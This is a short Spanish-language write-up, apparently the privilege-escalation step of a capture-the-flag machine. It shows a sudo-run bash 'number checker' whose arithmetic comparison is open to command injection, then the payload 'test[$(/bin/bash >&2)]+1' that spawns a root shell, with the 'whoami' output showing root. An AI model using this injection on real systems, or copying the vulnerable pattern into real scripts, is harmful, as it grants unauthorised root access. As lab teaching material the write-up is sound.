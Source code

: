 Info:

```bash
#!/bin/bash

# Inicio del script de verificación de número
echo -n "Checker de Seguridad "

# Solicitar al usuario que ingrese un número
echo "Por favor, introduzca un número para verificar:"

# Leer la entrada del usuario y almacenar en una variable
read -rp "Digite el número: " num

# Función para comprobar el número ingresado
echo -e "\n"
check_number() {
  local number=$1
  local correct_number=666

  # Verificación del número ingresado
  if [[ $number -eq $correct_number ]]; then
    echo -e "\n[+] Correcto"
  else
    echo -e "\n[!] Incorrecto"
  fi
}

# Llamada a la función para verificar el número
check_number "$num"

# Mensaje de fin de script
echo -e "\n La verificación ha sido completada."
```

Vemos que tiene una vulnerabilidad para injectar comandos en la entrada del usuario, por lo que haremos lo siguiente:

```shell
test[$(/bin/bash >&2)]+1
```

```shell
sudo cube
Checker de Seguridad Por favor, introduzca un número para verificar:
Digite el número: test[$(/bin/bash >&2)]+1
```

Info:

```
root@c7977b0f421c:/# whoami
root
```

Con esto ya seremos `root`, por lo que habremos terminado la maquina.
